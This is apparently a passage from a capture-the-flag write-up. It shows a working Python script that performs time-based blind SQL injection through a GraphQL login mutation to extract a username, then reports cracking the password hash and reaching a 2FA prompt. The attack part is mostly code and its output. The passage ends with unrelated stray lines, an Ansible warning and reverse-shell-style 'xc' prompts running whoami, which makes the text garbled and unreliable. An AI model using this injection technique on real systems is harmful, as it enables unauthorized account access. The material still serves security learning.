 ```python
import requests
import time
import os
#printable="a0123456789bcdefghijklmnopqrstuvwxyz"
printable="0123456789abcdefABCDEFGHIJKLMNOPQRSTUVWXYZ"
res=""
while True:
    for char in printable:
        time.sleep(0.6)
        session = requests.session()
        burp0_url = "http://10.129.255.194:80/graphql"
        burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36", "Content-Type": "application/json", "Accept": "*/*", "Origin": "http://10.129.255.194", "Referer": "http://10.129.255.194/admin", "Accept-Encoding": "gzip, deflate", "Accept-Language": "en-US,en;q=0.9", "Connection": "close"}
        burp0_json={"query": "mutation {\n    LoginUser(username: \"-12’ or (select sleep(2) from dual where (SELECT username from users ) like ’"+res+char+"%’)-- \", password: \"a\"){\n        message,\n        token    \n}\n}"}
        #print(burp0_json)
        start = time.perf_counter()
        session.post(burp0_url, headers=burp0_headers, json=burp0_json)
        request_time = time.perf_counter() - start
        #print("[Char: ]"+char+" "+str(request_time))
        if request_time > 2:
            res+=char
            print("result: "+res)
            break
```

We run the script and we’re able to retrieve the username!

```bash
hcue@pjsk:/tmp » python3 sql.py
result: J
result: Jo
result: Joh
result: John
```

Just for the sake of the length of the writeup, we can do the same script to retrieve the MD5 of John user and crack it with `Crackstation` to get `iamcool`.

Logging in with user `John:iamcool` Works and we’re greeted with 2FA.

![A screenshot of OTP verification form. OTP will be sent through email, and will expire in 2 minutes](/static/images/stack-the-flags-2022/otp-web.png)

I tried to provide a random OTP to check the request and it’s a graphql query aswell

```graphql
{
 "query":{\n    verify2FA{otp: \"1234\"}{\n     message,\n   token \n}\n}"
}
```


[WARNING]: provided hosts list is empty, only localhost is available. Note that
[xc: C:\Windows\system32]: whoami
[xc: C:\Windows\system32]: hostname